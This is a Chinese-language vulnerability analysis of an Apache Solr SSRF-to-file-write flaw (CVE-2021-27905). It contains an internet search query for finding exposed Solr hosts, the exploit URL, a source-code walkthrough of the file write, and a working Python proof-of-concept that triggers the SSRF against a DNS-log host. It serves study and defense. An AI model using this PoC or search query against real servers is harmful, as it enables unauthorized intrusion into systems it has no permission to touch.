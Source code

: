 ###　Apache Solr 8.8.1 SSRF to Arbitrary File Write Vulnerability


### 漏洞介绍

	Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；
	此漏洞要从SSRF-CVe-2021-27905 说起,漏洞引发原因由于SolrCloud Recovery 策略.

**攻击途径**：`远程`

**认证**：`不需要`

**攻击复杂度**：`低`

#### 影响产品

	Solr 版本<=8.8.6

#### 搜索规则：
	
	app="Apache-Solr"

### RCE前提
	
	1.具有用户权限权限：/home/xxx 或在root目录
	2.存在Core

### 漏洞原理：

	SSRF:
	第一步：访问http://ip:8983/solr/admin/cores?indexInfo=false&wt=json。获取core列表

![](img/11.png)	

	http://your-ip/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}

	当程序接收到fetchindex 参数时,会再次获取masterUlr 并进行请求.
	1.处为获取将要请求的url
	2.开启一个线程进行请求

![](img/1.png)

	继续跟进doFetch 函数，发现随后调用了IndexFetcher 方法

![](img/2.jpg)

	随后进去IndexFetcher 函数，找到发出请求的函数

![](img/3.jpg)

	至此。SSRF漏洞结束。开始进行任意写文件漏洞。
	继续跟踪函数发现，函数从返回值中获取两个值 并赋值给了latestVersion 与 latestGeneration。

![](img/4.jpg)

	通过构造返回值latestVersion 绕过if语句。
	随后进入fetchFileList函数，在这个函数中，程序会再次请求目标地址并获取将要下载的filelist

![](img/5.jpg)

	在这个请求中，程序会获取一个文件列表，其中包含：index文件、conf文件、tlog文件。
	并将在第三个请求中进行相应文件下载。

![](img/6.jpg)

	在 downloadIndexFiles() 函数中进行第三次请求。

![](img/7.jpg)

	坑：
	
	进入downloadIndexFiles 函数中走到compareFile时 会报一个错，此时因为使用源码进行程序启动时未加载zookepper ，所以其中需要使用相关的函数会报错。当使用正常程序时则会正常。

![](img/8.jpg)

	进入downloadConfFiles函数，此函数中可以看到如何进行任意文件写

![](img/9.jpg)
	
	至此漏洞分析结束。可以看到文件名完全可控，并未进行任何其他处理。

![](img/10.jpg)

### 验证演示：

![](验证.mp4)

### 验证程序

```

import requests
import urllib3
import json
import sys, getopt
urllib3.disable_warnings()

def commit():
    url = ""
    try:
        opt, agrs = getopt.getopt(sys.argv[1:], "hu:d:", ["help", "url=","dnslog="])
        for op, value in opt:
            if op == "-h" or op == "--help":
                print("""
            [-]   Apache Solr SSRF漏洞 (CVE-2021-27905)
            [-]   Options:
                     -h or --help      :   方法说明
                     -u or --url       :   站点URL地址
                     -d or --dnslog    :   DnsLog
                """)
                sys.exit(0)
            elif op == "-u" or op == "--url=":
                url = value
            elif op == "-d" or op == "--dnslog=":
                dnslog = value
            else:
                print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
                sys.exit()
        return url, dnslog

    except Exception as e:
        print("[-] 参数有误! eg:>>> python3 CVE-2021-27905.py -u http://127.0.0.1 -d dnslog")
        sys.exit(0)

def target_core(url):
    target_url = url + "/solr/admin/cores?indexInfo=false&wt=json"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url,headers=headers,verify=False,timeout=5)
        print(target_url,'[]',res.text)
        core = list(json.loads(res.text)["status"])[0]
        return core
    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ",e)

def ssrf(core,dnslog):
    target_url = url + f"/solr/{core}/replication/?command=fetchindex&masterUrl=http://{dnslog}"
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36"
    }
    try:
        res = requests.get(url=target_url, headers=headers, verify=False, timeout=5)
        print(target_url)
        status = json.loads(res.text)["status"]
        if res.status_code == 200 and status == "OK":
            print(f"[!]  \033[31m目标系统: {url} 可能存在SSRF漏洞，请检查DNSLog响应！\033[0m")
        else:
            print(f"[0]  目标系统: {url} 不存在SSRF漏洞")

    except Exception as e:
        print(f"[!]  目标系统: {url} 出现意外！\n ", e)


if __name__ == "__main__":
    url ,dnslog = commit()
    core = target_core(url)
    ssrf(core,dnslog)

```

### 验证视频：

![](POC验证.mp4)

### 验证程序使用文档：

python3 CVE-2021-27905.py -u url -d dnslog

### 产品程序：

![](solr-8.8.0.zip)

### 攻击流量：

![](Solr.pcapng)

#### 参考资料：

http://noahblog.360.cn/apache-solr-8-8-1-ssrf-to-file-write/

https://www.cnblogs.com/rcfeng/p/4148733.html
